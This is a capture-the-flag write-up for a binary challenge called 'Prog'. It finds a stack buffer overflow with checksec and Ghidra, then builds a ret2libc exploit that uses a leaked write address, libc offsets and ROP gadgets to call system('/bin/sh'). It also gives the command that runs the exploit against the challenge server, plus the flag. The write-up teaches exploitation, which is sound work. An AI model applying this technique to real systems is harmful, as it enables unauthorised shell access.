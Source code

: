 # challenge Name: Prog

![Poj_challenge](../images/poj.png)


In this challenge, we are given a binary file with a dinamyc linker/loader

1. # first step: let analyse the prog security mitigation
```
 pwn checkseck poj 
```

![Poj_challenge](../images/checksec_poj.png)
    ## No cannary found. 

 note that we need libc.so.6 file in the current directory in order to run pob binary

 2. # second step: understand how the prog work

![Poj_challenge](../images/poj_exec1.png)

The prog leak write address and ask user to input data

# reverse engineering the program

after decompiled the prog with ghidra, we can know that the main function  print write address and call vuln_func.

vuln function read 0x100 byte on local array of length 64 so we have a BOF.

# main function

![main_function](../images/main_func_poj.png)


# vuln_function

![vuln_function](../images/vuln_func_poj.png)


3. # exploit the BOF:

    as the prog don't have Cannary and we also have address leak,   we can  exploit  the buffer overflow to make ``ret2system`` 
    1. found offset
    ![found bof offse](../images/found_offset1_poj.png)
# offset = 72
![found bof offset](../images/found_offset2_poj.png)
    
    2. found useful function address /bin/sh string and gadgets  on the libc 
```python    ```
 # libc.so.6 write = 0xff4d0

libc_write = 0xff4d0  # readelf -s libc.so.6 | grep write 

libc_system  = 0x000000000004dab0  # readelf -s libc.so.6 | grep system 

libc_bin_sh = 0x197e34 # strings -t x libc.so.6 | grep "/bin/sh"

pop_rdi_offset =  0x0000000000028215 # found with ropper 

ret_offset =  0x00000000000f35d8 # found with ropper
```


# Now calculate the PIEBASE and craft the payload
```
libc_addr = leaked_addr - libc_write 
sys_addr = libc_addr + libc_system
bin_sh = libc_addr + libc_bin_sh
pop_rdi = pop_rdi_offset + libc_addr
ret_addr = ret_offset + libc_addr

payload = flat({
    offset:[
        pop_rdi,
        bin_sh,
        ret_addr,
        sys_addr
        ]
})
```

# see the complet exploit: ![exploit](./poj_exploi.py)

```bash
python3 poj_exploi.py  REMOTE challenge.bugpwn.com 1003

```
![found bof offset](../images/exploit_poj.png)
and we get the flag: battleCTF{Libc_J0P_b4s1c_000_bc8a769d91ae062911c32829608e7d547a3f54bd18c7a7c2f5cc52bd} 

    
@Top0n3

